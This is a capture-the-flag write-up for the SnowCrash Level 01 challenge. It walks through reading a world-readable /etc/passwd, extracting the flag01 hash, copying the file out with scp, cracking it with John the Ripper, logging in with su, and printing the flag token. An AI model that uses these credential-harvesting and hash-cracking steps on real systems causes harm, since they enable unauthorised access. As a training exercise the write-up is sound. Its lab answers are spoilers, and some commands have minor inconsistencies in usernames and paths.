 # Level 01

## Vulnerability
Password stored in publicly readable file, weak encryption

## Context

## Solution
First step, look for flag01 password.
For some reason we have read rights on /etc/passwd...
```
level01@SnowCrash:~$ ls -l /etc/ | grep 'passwd'
-rw-r--r-- 1 root root    2477 Mar  5  2016 passwd
```

This is where user account details are stored. Let's look inside. 
```
level01@SnowCrash:~$ grep 'flag01' /etc/passwd
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

[The second field](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/) is the password.
```
level01@SnowCrash:~$ grep 'flag01' /etc/passwd | cut -d ':' -f 2
42hDRfypTqqnw
```

Copy the password to your home machine (outside of the VM). 
```
scp -P4242 level02@{VM_IP}:/etc/passwd vm_passwd
```
Cut out user flag01's password and save in a new file. 
```
grep 'flag01' vm_passwd | cut -d ':' -f 2 >> password
```

Next, install JohnTheRipper (a popular password cracker) and run on the password. 
```
git clone https://www.github.com/magnumripper/JohnTheRipper john
cd john/src
./configure LDFLAGS=-L$HOME/.brew/opt/openssl/lib CPPFLAGS=-I$HOME/.brew/opt/openssl/include
make -s clean && make -sj4
cd john/run
./john --show ../../level01/passwd | cut -d ':' -f 2
abcdefg
1 password hash cracked, 0 left
```

Let's try to log in to user flag01...
```
level01@SnowCrash:~$ su flag01
Password: abcdefg
```

Run getflag!
```
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
```
